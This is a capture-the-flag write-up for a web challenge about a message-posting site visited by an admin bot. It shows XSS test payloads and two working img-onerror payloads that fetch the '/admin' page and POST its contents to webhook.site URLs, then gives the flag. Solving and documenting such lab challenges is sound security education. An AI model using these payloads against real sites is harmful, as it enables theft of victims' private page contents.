 # mavs-fan - web

## Challenge

Just a Mavs fan trying to figure out what Nico Harrison cooking up for my team nowadays...

Hint - You can send a link to your post that the admin bot will visit.

## Solve

In this challenge we are provided a webpage where users can post messages. 

img1

When a message is posted, a URL is generated which can be sent to the 'admin bot' who will visit the post.

This seemed like an XXS so I firstly tested for script injection:

```javascript
<script>alert('working')</script>
```

Submitting this payload and visiting the URL presented no output so I assumed the application had some built in protection against it.

Next I tested for an event based XSS:

```html
<img src=x onerror=alert('working')>
```
- Setting img src to 'x' immediately triggers error as invalid URL
- `onerror` parameter executes JS when error occurs while loading image

This was successful, and the popup is displayed on the screen:

img2

So we know we can use this method to execute code within the browser of the user visiting the post. Just need the right payload to read `/admin`.

Credit to my teammate `Solopie` for his initial solution which assisted me in developing mine:

***Solopies***
```html
<img src=x onerror='fetch("/admin").then(r => r.text()).then(html => fetch("https://webhook.site/fec2d565-693d-4010-9574-e7c9ffe7dd9b", {method: "POST", body:html}))' />
```

***Mine***
```html
<img src=x onerror='(async () => {
  let admin = await fetch("/admin");
  let text = await admin.text();
  fetch("https://webhook.site/d81d0cf2-a48a-4a3b-9135-f61410b83df0", { method: "POST", body: text });
})()'>
```
- `async()` is immediately called with `()` and enables use of `await` keyword
- `await` keyword makes the function pause the execution and wait for code to be successful before it continues
    - before attempting to store the `.text()` property of the HTML object `admin` in text, the program ensures that `/admin` has been fetched
    - likewise, before exfiltrating `text` to the web hook, the program ensures it has been successfully stored 
- `fetch("...", { method: "POST", body: text });`
    - Sends a POST request to webhook site containing `text` (the contents of the admin page)
- `()` at the end immediately calls the overall arrow function as soon as it is defined

Submitting the generated URL to the admin bot and checking the webhook site shows that the payload was successful:

img3 

`lactf{m4yb3_w3_sh0u1d_tr4d3_1uk4_f0r_4d}`